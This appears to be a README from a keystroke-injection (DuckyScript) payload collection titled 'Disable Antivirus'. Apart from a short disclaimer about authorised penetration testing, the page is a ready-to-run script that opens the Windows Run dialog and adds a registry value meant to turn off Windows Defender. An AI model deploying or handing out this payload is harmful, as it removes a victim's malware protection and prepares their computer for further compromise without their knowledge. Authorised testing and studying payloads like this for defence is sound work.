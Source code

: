 # Disable Antivirus

Disables Windows Defender antivirus through a registry change.

```
DELAY 500
GUI r
DELAY 200
STRING reg add "HKCU\\Software\\Microsoft\\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.
